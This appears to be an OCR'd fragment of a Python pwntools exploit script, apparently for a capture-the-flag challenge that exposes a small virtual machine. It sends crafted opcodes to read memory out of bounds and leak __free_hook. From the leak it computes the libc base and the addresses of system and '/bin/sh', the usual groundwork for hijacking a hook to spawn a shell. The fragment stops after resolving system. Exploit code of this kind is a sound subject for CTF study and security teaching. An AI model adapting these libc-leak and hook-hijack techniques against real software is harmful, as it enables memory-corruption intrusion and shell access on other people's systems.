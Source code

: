 ```python
    libc_base = addr - libc.sym['puts']
    leak("libc base ",libc_base) 
    mh = libc_base + libc.sym['__malloc_hook']
    system = libc_base + libc.sym['system']
    binsh_addr = libc_base + next(libc.search(b'/bin/sh'))
    realloc = libc_base + libc.sym['realloc']
    fh = libc_base + libc.sym['__free_hook']
    _IO_2_1_stdout_ = libc_base + libc.sym['_IO_2_1_stdout_']

def leak_libcsearcher(name,addr):
    global libc_base,system,binsh_addr
    libc = LibcSearcher(str(name),addr)
    libc_base = addr - libc.dump[str(name)]
    leak("libc base ",libc_base)
    system = libc_base + libc.dump['system']
    binsh_addr = libc_base + libc.dump['str_bin_sh']

def got(name):
    got_addr = elf.got[str(name)]
    return got_addr

def plt(name):
    plt_addr = elf.plt[str(name)]
    return plt_addr

def pwn():
    sla('PC: ',str(0))
    sla('SP: ',str(1))
    sla('SIZE: ',str(23))
    opcode(0x10,0,0,26)
    opcode(0x10,1,0,0)
    opcode(0x80,4,1,0)
    opcode(0x30,2,0,4)
    opcode(0x10,0,0,25)
    opcode(0x80,4,1,0)
    opcode(0x30,3,0,4)

    opcode(0x10,0,0,1)
    opcode(0x10,1,0,12)
    opcode(0xc0,4,0,1)
    opcode(0x10,0,0,0xa)
    opcode(0x10,1,0,4)
    opcode(0xc0,5,0,1)
    opcode(0x70,4,4,5)
    opcode(0x70,2,2,4)

    opcode(0x10,0,0,8)
    opcode(0x10,1,0,0)
    opcode(0x80,4,1,0)
    opcode(0x40,2,0,4)
    opcode(0x10,0,0,7)
    opcode(0x80,4,1,0)
    opcode(0x40,3,0,4)
    opcode(0xe0,0,0,0)

    ru("R2: ")
    low = int(ru('\n').strip(), 16) + 8
    ru("R3: ")
    high = int(ru('\n').strip(), 16)
    free_hook = (high<<32)+low
    success("free_hook:"+hex(free_hook))
    libc.address = free_hook - libc.sym['__free_hook']
    system = libc.sym['system']
```